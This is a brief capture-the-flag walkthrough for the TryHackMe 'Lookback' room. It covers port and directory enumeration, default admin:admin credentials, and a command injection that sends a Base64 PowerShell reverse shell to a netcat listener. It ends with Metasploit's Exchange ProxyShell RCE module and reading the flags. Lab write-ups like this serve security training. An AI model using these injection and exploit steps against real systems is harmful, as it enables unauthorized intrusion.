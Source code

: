 # Lookback

[Lookback](https://tryhackme.com/room/lookback)

## Solution

### Enumeration

- nmap scan: 80, 443, 3389
- feroxbuster: /test

### Test

We can access https://$IP/test
The username and password is `admin:admin`
On the host start a nc listener `nc -lvnp 6969`
In the textbox input `'); revshell #` from https://www.revshells.com/ (use PowerShell #3 (Base64))

### dev

```
cd C:\Users\dev\Desktop
cat user.txt
```

### metasploit

```
msfconsole
use exploit/windows/http/exchange_proxyshell_rce
set EMAIL dev-infrastracture-team@thm.local
set RHOST <IP>
set LHOST <HOST>
run
...
cd C:\Users\Administrator\Documents
cat flag.txt
```
